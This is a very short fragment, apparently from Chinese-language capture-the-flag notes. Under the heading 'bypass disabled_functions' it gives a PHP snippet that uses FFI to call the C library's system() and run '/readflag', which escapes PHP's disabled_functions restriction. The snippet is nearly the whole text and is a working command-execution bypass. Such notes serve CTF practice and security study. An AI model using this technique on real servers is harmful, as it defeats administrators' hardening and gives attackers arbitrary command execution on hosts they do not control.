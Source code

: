 - 绕过`disabled_functions`
- ```php
  $ffi = FFI::cdef(
    "int system(const char *command);");
  $ffi->system("/readflag > a.txt");
  exit();
  ```